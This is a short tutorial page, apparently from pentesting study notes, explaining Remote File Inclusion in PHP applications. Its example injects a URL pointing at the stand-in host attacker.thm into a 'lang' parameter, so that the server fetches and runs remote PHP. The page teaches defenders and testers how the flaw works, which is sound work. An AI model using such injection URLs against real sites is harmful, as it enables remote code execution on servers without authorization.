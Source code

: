 ```yaml
---
title: Remote File Inclusion
---
```


_Remote File Inclusion_ is a technique to include remote files and into a vulnerable application. Like [Local File Inclusion](knowledge/off-sec/pentesting/lfi.md), the RFI occurs when improperly sanitizing user input, allowing an attacker to inject an external URL into include function.

One requirement for RFI is that the `allow_url_fopen` option needs to be on.

The risk of RFI is higher than LFI since RFI vulnerabilities allow an attacker to gain Remote Command Execution (RCE) on the server. Other consequences of a successful RFI attack include:

- Sensitive Information Disclosure
- Cross-site Scripting ([xss](knowledge/off-sec/pentesting/xss.md))
- Denial of Service

An external server hosting malicious files must communicate with the application server for a successful RFI attack. The malicious file is injected into the `include` fn via HTTP requests, and the content of the malicious file executes on the vulnerable application server.

## Example

Let's say that the attacker hosts a PHP file on their own server `http://attacker.thm/cmd.txt` where cmd.txt contains PHP code:

```php
<?php echo "Hello World"; ?>
```

First, the attacker injects the malicious URL, which points to the attacker's server, such as

```
http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt
```

If there is no input validation, then the malicious URL passes into `include`. Next, the web app server will send a `GET` request to the malicious server to fetch the file. As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker.
